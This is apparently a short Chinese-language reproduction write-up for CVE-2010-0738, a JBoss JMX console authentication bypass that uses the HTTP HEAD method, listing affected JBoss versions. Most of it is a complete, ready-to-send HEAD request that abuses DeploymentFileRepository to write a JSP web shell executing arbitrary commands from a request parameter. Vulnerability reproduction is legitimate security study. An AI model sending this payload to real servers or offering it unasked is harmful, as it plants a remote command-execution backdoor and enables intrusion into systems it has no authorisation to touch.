 （CVE-2010-0738）JBoss JMX控制台安全验证绕过漏洞
================================================

一、漏洞简介
------------

这个漏洞利用方法跟CVE-2007-1036一样，不过这个是绕过了get和post传输限制，利用head传输方式发送payload

二、漏洞影响
------------

jboss4.2.0 and jboss 4.3.0

三、复现过程
------------

因为跟上个漏洞利用差不多，只不过用了head传输方式，我这里就直接贴payload了

    HEAD /jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodIndex=6&arg0=..%2Fjmx-console.war%2F&arg1=hax0rwin&arg2=.jsp&arg3=<%Runtime.getRuntime().exec(request.getParameter("i"));%>&arg4=True HTTP/1.1

    Host: hostx:portx

    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.1.9) Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)

    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

    Accept-Language: en-us,en;q=0.5

    Accept-Encoding: gzip,deflate

    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7

    Keep-Alive: 300

    Proxy-Connection: keep-alive
